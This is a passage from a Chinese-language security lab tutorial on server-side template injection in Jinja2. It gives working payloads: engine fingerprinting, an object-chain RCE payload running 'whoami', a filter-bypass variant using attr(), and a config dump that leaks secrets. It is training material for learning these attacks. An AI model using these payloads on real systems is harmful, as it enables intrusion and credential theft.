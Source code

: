 ------

### 实验 3: SSTI with Code Execution (代码执行)

#### 目标

通过 SSTI 实现远程命令执行（RCE）。

#### 详细步骤（以 Jinja2 为例）

1. **确认引擎类型**：

   - 输入 `{{7*'7'}}`，若返回 `7777777` 则为 Jinja2；若返回 `49` 则为 Twig。

2. **构造 RCE Payload**：

   - 访问内置对象链（Python）：

     ```
     {{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() }}
     ```

   - 若过滤了 `.`，改用 `[]` 或 `|attr()`：

     ```
     {{ self|attr("__init__")|attr("__globals__")|attr("__builtins__")|attr("__import__")("os").popen("id").read() }}
     ```

3. **执行命令**：

   - 注入后查看响应内容，获取命令执行结果（如当前用户权限）。

#### 知识点

- **对象链调用**：通过 `__globals__`、`__builtins__` 访问系统模块（如 `os`）。
- **绕过符号过滤**：使用 `attr()` 过滤器或 `[]` 替代 `.`。

------

### 实验 4: SSTI in a Sandboxed Environment (沙箱逃逸)

#### 目标

在受限的沙箱环境中绕过限制，执行代码。

#### 详细步骤

1. **探测沙箱限制**：

   - 尝试调用 `os` 模块，若被拦截，寻找替代对象（如 `request`、`config`）。

2. **利用框架内置对象**：

   - Flask 的 `config` 对象泄露敏感信息：

     ```
     {{ config.items() }}  # 获取数据库密码等配置
     ```
